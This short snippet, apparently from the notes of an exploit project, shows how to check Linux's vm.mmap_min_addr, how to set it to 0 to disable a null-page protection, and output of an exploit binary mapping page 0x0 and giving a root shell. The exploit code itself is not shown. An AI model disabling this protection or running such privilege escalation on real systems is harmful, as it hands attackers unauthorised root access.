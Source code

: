 - Check the mmap_min_addr:
cat /proc/sys/vm/mmap_min_addr\n
zgrep MMAP_MIN /proc/config.gz\n
/sbin/sysctl vm.mmap_min_addr\n

- Changing the mmap_min_addr value:
        /sbin/sysctl vm.mmap_min_addr=0
        
- Test the exploit:
$ ./mmap 
Page 0x0 mmaped:0xbfde0cd8[(nil)]
Send the command...
[+] enjoy the shell
sh-4.3# whoami
root
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
